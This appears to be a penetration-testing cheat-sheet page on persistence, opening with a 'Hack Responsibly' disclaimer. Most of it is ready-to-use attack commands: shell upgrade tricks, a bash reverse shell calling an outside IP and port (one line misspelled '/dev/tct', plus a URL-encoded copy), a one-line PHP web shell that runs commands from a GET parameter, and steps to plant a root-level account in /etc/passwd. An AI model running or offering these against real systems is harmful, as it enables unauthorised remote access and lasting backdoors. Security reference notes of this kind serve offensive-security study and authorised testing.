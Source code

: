 # Persistance

{% hint style="success" %}
Hack Responsibly.

Always ensure you have **explicit** permission to access any computer system **before** using any of the techniques contained in these documents.  You accept full responsibility for your actions by applying any knowledge gained here.  
{% endhint %}

## Remote shells

```bash
python -c 'import pty;pty.spawn("/bin/bash")'; 
ctrl-z #send to background
stty raw -echo #https://stackoverflow.com/questions/22832933/what-does-stty-raw-echo-do-on-os-x
stty -a #get local number of rows & columns
fg #to return shell to foreground
stty rows <x> columns <y> #Set remote shell to x number of rows & y columns
export TERM=xterm-256color #allows you to clear console, and have color output
```

To upgrade to fully interactive shell \(python example\):

```python
1. python -c 'import pty; pty.spawn("/bin/sh")'
2. perl -e 'exec "/bin/sh";'
3. ruby -e 'exec "/bin/sh"'
```

### Upgrade shells:

```bash
bash -i >& /dev/tct/10.10.14.148/9001 0>&1

#URL encoded: 
bash+-i+>%26+/dev/tcp/10.10.14.148/9001+0>%261
```

bash reverse shell:

simple php shell: `<?php system($_GET['variable_name']); ?>`

## Accounts

### Add Account and/or Password to /etc/passwd

Generate password:

`openssl passwd -1 -salt [Username] [PASSWD]`

Then add to `/etc/passwd` file:

`Username:generated password:UID:GUID:root:/root:/bin/bash`

